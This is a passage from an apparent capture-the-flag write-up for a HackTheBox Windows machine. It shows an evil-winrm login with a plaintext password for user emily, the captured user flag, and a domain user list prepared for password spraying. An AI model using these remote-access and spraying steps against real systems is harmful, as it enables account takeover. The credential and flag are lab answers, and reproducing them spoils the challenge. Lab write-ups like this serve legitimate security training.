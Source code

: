 ```bash

evil-winrm -i administrator.htb -u 'administrator.htb\emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```
```bash

*Evil-WinRM* PS C:\Users\emily\Documents> whoami
administrator\emily
*Evil-WinRM* PS C:\Users\emily\Documents>

```
> I get the first flag in the directory - `C:\Users\emily\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
5ca3d5276d4e812d4f10564a42829e8d
*Evil-WinRM* PS C:\Users\emily\Desktop>

```
<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>5ca3d5276d4e812d4f10564a42829e8d</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️  Vertical Privilege Escalation

> Previously I dumped the list of users into `users.txt` to perform `password spraying` technique:

```bash

cat users.txt

Administrator
Guest
krbtgt
DC$
olivia
michael
benjamin
emily
ethan
alexander
emma

```
